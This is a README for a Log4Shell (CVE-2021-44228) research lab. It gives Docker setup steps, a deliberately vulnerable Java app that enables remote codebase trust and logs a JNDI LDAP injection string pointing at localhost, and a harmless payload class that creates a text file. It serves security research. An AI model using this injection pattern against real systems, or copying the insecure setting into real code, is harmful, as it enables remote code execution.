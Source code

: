 # CVE-2021-44228 Log4j RCE (Log4Shell) Research Lab

## Docker Deployment

### Clone Repo

```
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Create Local Socket Proxy

```
docker network create --gateway 192.168.55.1 --subnet 192.168.55.0/24 socket_proxy
```

### Run Docker Compose File

```
docker-compose -f docker-compose.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server

docker logs --follow web-server
```

## Run Vulnerable App

### Compile

**Dockerized**
```
cd vulnApp
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Locally**
```
cd vulnApp
mvn -f pom.xml clean package -DskipTests
```

## Run

```
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar  com.log4jshell.App
```

## Files

### Vuln App

```
package com.log4jshell;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class App {
    private static final Logger logger = LogManager.getLogger(App.class);
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:ldap://127.0.0.1:1389/CreateFile}");
    }
}
```

## CreateFile Payload

```
import java.io.File;  // Import the File class
import java.io.IOException;  // Import the IOException class to handle errors

public class CreateFile {
    public CreateFile() {}
    static {
      try {
        File myObj = new File("filename.txt");
        if (myObj.createNewFile()) {
          System.out.println("File created: " + myObj.getName());
        } else {
          System.out.println("File already exists.");
        }
      } catch (IOException e) {
        System.out.println("An error occurred.");
        e.printStackTrace();
      }
    }
    public static void main(String[] args) {
        CreateFile e = new CreateFile();
    }
}
```

## References
* https://www.smarthomebeginner.com/traefik-docker-security-best-practices/#9_Use_a_Docker_Socket_Proxy